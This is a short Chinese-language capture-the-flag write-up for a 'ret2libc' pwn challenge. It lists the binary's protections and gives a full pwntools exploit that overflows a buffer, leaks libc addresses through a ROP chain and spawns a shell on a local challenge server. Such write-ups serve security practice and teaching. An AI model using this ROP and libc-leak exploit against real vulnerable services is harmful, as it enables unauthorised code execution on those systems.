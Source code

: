 # ret2libc

## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 逆向

vuln函数里就写了利用ret2libc...和之前一样

## EXPLOIT

```python
import LibcSearcher
from pwn import *
sh = remote('localhost', 39671)
elf = ELF('ret2libc')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x40117e
vulnAddr = elf.symbols['vuln']

# payload 1
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))

sh.recvuntil(b'??\n\n') # skip
data = sh.recv()
putsGotAddr = u64(data[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')
retAddr = 0x40122a

# payload 2
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
